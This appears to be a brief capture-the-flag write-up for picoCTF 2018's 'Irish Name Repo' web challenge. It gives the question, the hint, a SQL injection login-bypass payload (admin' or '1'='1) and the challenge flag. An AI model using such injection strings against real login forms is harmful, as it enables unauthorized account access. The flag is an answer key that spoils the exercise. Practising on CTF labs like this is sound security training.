 # Irish Name Repo
**Points: 200**

## Web Exploitation

## Question
>There is a website running at http://2018shell.picoctf.com:52135 (link). Do you think you can log us in? Try to see if you can login!

### Hint
>There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?

## Solution
**SQL injection**
> admin' or '1'='1
> password

### Flag
`picoCTF{con4n_r3411y_1snt_1r1sh_8cf1b7e7}`
